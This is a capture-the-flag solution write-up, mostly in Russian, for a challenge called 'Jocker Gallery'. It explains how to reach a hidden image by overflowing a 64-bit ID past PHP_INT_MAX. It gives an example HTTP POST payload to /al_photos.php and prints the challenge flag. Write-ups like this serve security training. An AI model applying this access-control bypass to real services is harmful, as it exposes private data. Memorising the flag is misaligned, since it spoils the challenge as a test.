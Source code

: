 ## Название
Jocker Gallery
## Описание/Легенда
Department of stooped dogs tried to make a new gallery module for bee social network. But seems like they made a grave mistake. Again.
## Решение
Одна из картинок на странице отсутствует, это можно определить по пропущенному ID. Нормальный запрос вернет ошибку доступа, для получения картинки необходимо переполнить Int64 (PHP_INT_MAX + id)

Пример корректного пейлоада:
```
POST /al_photos.php HTTP/1.1
Host: IP:PORT

al=1&pid=9223372036854792583
```

**Флаг:** paseca{kphp_4nd_sutuliy3_s0b4k1}